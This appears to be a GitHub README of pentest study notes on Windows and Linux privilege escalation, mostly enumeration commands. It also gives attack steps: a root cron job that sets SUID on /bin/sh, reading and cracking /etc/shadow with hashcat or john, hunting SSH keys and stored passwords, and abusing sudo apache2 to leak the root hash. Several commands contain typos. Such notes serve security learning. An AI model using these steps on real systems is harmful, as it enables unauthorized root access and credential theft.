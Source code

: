 # Privilege-Escalation
###Manual Enumeration
1. processes-services :

```bash
#Windows 
tasklist /svc

#Linux
ps aux
```

1. About-version :

```bash
#Windows 
systeminfo | findstr /c:”os name” /c:”os  version” /c:”systemtype”

#Linux
uname -a || cat /etc/issue
```

1. Enum-Host_Name :

```bash
#Windows & Linux
 
hostname
```

1. Enum-Users :

```bash
#Windows
whoami || net user || net user <username> 

#Linux
whoami ||id|| cat /etc/passwd 
```

### Network Enum

| Type | Windows | Linux |
| --- | --- | --- |
| open-ports | ipconfig /all  || route print ||netstat -ano | ip a || ifconfig  ss -anp || cat /sbin/route || netstat -anp |

### Firewall Enum

| Type | Linux | Windows |
| --- | --- | --- |
|  | iptables ⇒However, depending on how the firewall is configured, we may be able to glean information about the rules as a standard user || /etc/iptables | netsh advfirewall show currentprofile netsh advfirewall firewall show rule name=all  |

### Enumerating scheduled tasks

Scheduled task :



---

```bash
1. nano test.sh
2. chmod u+s /bin/sh
3. chmod +x test.sh
4. nano /etc/crontab
- * * * * * root /home/luka/test.sh
1. $ /bin/sh -p
2. $ whoami
```

---

in windows

```bash
schtasks /query /fo LIST /v     
```

---

### Enum installed applications and patch levels

for Windows :

```bash
- wmic product get name, version, vendor
- wmic qfe get capion, discription, hosfixid, nstalledon
```

for Linux

```bash
dpkg -l
```

---

### Enum readable/writable files and directories

- for windows
- exec tool like ⇒ accesschk

```bash
c:\Tools\privilege_escalation\SysinternalsSuite>accesschk.exe -uws "Everyone" "C:\Prog ram Files”
```

- powershell script :

```powershell
>Get-ChildItem "C:\Program Files" -R ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

- for linux

```bash
find / -writable -type d 2>/dev/null
```

---

### unmounted disks



- Windows

```powershell
mountvol
```

- Linux

```bash
mount
```

---

### Device Drivers and kernal modules



- Windows

```powershell
drivequery.exe /v /fe csv | convertfrom-csv | select-object ‘display name’, ‘start mode’, path 
```

- Linux

```bash
1. lsmod
2. modinfo <modulename>
```

====================================

## Automation

===============

Runas escalation via ⇒ CVE-2019-1388

===============

# Linux privesc

exploits:

1. kernel exploits: ⇒ vuls in version ... EX.( dirty c0w)
2. stored passwords (config files)
3. stored passwords (History) .. /.bash_history
4. weak permission ⇒ /etc/shadow —> unshadow passwd shadow > output.txt —→ crack

$hashcat -m 1800 output.txt rockyou.txt -O

1. ssh keys —→ find / -name id_rsa 2> /dev/null
2. shell escaping ⇒sudo -l 
3. sudo abusing intended functionality

⇒sudo apache2 -f /etc/shadow ⇒root hash ⇒ echo ‘[ root hash ]’ > x.txt

john —wordlist=/user/share/wordlist/nmap.lst x.txt

1. sudo (LD_PRELOAD)
